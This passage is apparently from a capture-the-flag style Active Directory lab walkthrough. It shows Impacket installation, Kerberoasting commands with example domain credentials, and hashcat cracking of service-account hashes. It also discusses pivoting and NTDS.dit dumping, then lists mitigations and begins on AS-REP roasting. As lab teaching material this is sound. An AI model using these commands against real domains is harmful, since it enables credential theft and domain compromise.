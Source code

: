 1.) `cd /opt` navigate to your preferred directory to save tools in 

2.) download the precompiled package from [https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19](https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19)

3.) `cd Impacket-0.9.19` navigate to the impacket directory

4.) `pip install .` - this will install all needed dependencies

### Kerberoasting w/ Impacket

1.) `cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located

2.) `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.236.67 -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

### What Can a Service Account do?

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.

## Mitigation - Defending the Forest

![](https://i.imgur.com/YPuNS2X.png)

### Kerberoasting Mitigation

-  Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
-  Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.
# AS-REP Roasting w/ Rubeus

Very similar to Kerberoasting, AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.

We'll continue using Rubeus same as we have with kerberoasting and harvesting since Rubeus has a very simple and easy to understand command to AS-REP roast and attack users with Kerberos pre-authentication disabled. After dumping the hash from Rubeus we'll use hashcat in order to crack the krbasrep5 hash.

